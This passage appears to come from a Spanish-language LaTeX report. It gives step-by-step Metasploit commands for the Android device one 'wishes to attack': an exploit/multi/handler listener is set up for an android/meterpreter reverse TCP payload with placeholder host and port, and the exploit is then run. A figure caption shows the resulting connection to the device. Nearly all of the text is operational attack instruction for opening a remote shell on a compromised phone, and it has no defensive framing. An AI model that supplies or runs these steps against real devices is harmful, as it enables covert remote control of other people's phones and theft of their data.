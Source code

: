 Una vez instalada la aplicación en el dispositivo Android al cual se desea atacar, se debe ejecutar la consola de \emph{Metasploit} (con el comando \texttt{msfconsole}), e ingresar lo siguiente:

\begin{itemize}
    \item \texttt{use exploit/multi/handler} 
    \item \texttt{set payload android/meterpreter/reverse\_tcp} 
    \item \texttt{set LHOST <IP>} 
    \item \texttt{set LPORT <PUERTO\_DE\_ESCUCHA>} 
    \item \texttt{exploit} 
\end{itemize}

\begin{figure}[H]
    \centering
    \texttt{[image: meterpreter-android]}
    \caption{Conexión desde \texttt{msfconsole} a un dispositivo Android}
\end{figure}











\clearpage
\printbibliography



